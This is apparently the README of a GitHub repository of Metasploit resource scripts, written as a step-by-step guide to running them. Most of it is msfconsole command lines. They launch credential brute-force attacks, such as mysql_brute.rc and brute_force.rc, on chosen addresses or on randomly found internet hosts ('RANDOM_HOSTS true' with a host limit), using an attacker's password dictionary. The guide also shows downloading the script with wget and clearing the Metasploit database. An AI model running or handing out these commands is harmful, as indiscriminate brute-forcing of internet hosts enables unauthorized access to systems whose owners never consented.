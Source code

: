 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**<br />
![pic](http://i68.tinypic.com/21ovkfm.jpg)

#### [!] Please read the article about resource scripting [here](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

#### HOW TO RUN SCRIPTS?

To run resource script at **msfconsole startup** execute the follow command in your terminal:<br />

      msfconsole -r /<absoluct-path-to-script>/<script_name>.rc

To run resource script **inside msfconsole** execute the follow command in msfconsole prompt:

      resource /<absoluct-path-to-script>/<script_name>.rc

To run resource script **inside meterpreter** execute the follow command in meterpreter prompt:

      resource /<absoluct-path-to-script>/<script_name>.rc

To set a **global variable** (erb) and run resource script at **msfconsole startup** execute the follow command:

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /<absoluct-path-to-script>/<script_name>.rc'

<br /><br /><br />

#### REMARKS:
**Brute force resource scripts deletes my msfconsole database data at exit (delete host list).**<br />

<blockquote>Brute force rc scripts requires the msf database to be empty, thats the reason why the scripts cleans the database<br />at exit, because the next time it runs, if the database contains any hosts the script will run the attacks againts database<br />hosts (old hosts) and not the hosts found by resource script db_nmap scans.</blockquote>

The msfconsole database must be empty (**clean**) at resource script execution (**first-time-run**)

      msfconsole -q -x 'hosts -d;services -d;exit -y'

To continue populating database with scans, just instruct the rc script to not clean db (**optional**)

      msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/brute_force.rc'

To export database contents to database.xml local folder before executing any rc script (**optional | adviced**)

      msfconsole -q -x 'db_export -f xml database.xml;exit -y'

All brute force resource scripts will build one logfile in **/root** directory.

      /root/<resource_script_name>.log

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](http://i67.tinypic.com/2wfi88h.png)
**Remark: If the database contains any hosts previous to this scans, then rc script will run attacks againts all hosts in db**<br />

<blockquote>Many of the this brute force rc scripts are written to accept user inputs (setg global variables).<br />This means that users can run this resource scripts in 3 diferent ways:</blockquote>

Execute resource script **( Default scan: 192.168.1.0/24 )**<br />

      msfconsole -r /root/mysql_brute.rc

Instruct the resource script to scan rhosts input by attacker **( Scan: 10.10.10.1 10.10.11.2 )**<br />

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

Instruct the resource script to search in WAN for rhosts with service port open **( Search: WAN for hosts )**<br />

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

> Adicionally to the described settings we can also combine diferent configurations at runtime execution.

Instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/mysql_brute.rc'

Instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

Instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

Instruct the resource script to not clean database at exit, scan WAN for rhosts and limmit search to 600 rhosts

      msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/mysql_brute.rc'

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

1º download resource script to **/root** folder<br />

      sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc

2º start postgresql service (**local**)<br />

      sudo service postgresql start

3º clean (**or export**) msfconsole database before runing rc script<br />

      sudo msfconsole -q -x 'hosts -d;services -d;exit -y'

- **OR** export current database to database.xml (local)<br />

      sudo msfconsole -q -x 'db_export -f xml database.xml;exit -y'`<br /><br />

4º run brute_force.rc resource script to search hosts on WAN (**limmit to 300 searchs**)<br />

      sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/brute_force.rc'

<blockquote>Brute force rc scripts requires the msf database to be empty, thats the reason why the scripts cleans the database<br />at exit, because the next time it runs, if the database contains any hosts the script will run the attacks againts database<br />hosts (old hosts) and not the hosts found by resource script db_nmap scans.</blockquote><br />

5º To populate the database with scans, just instruct the rc script to not clean db (**optional | not-adviced**)<br />

      sudo msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/brute_force.rc'

6º To export database contents to database.xml local folder (**optional**)<br />

      msf > db_export -f xml database.xml

### Suspicious Shell Activity RedTeam @2019

<br />

